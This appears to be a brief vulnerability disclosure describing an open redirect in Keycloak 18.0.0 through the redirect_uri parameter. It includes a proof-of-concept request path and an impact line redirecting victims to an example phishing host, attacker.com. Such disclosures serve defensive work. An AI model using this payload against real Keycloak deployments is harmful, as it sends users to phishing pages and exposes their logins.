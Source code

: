 # OpenRedirect-Keycloak18.0.0
An open redirection vulnerability (open redirect) happens when attackers are able to control where a website or application redirects users. Here in this case, we can mention any URL as value of redirect_uri and it successfully redirects to it.

**POC.** /auth/realms/master/protocol/openid-connect/auth?client_id=<id>&redirect_uri=**<ANY_REDIRECT_URL>**&state=72526a4b-d5b6-4424-90db-cc0f7c2001a7&response_mode=fragment&response_type=code&scope=openid&nonce=33e890be-c19f-463f-bd0e-7fdcd065c0fb HTTP/2


**Impact.** By exploiting the open redirect vulnerability on the keycloak using the URL parameter value 'redirect_uri', the attacker is redirecting the victim to http://attacker.com/phish
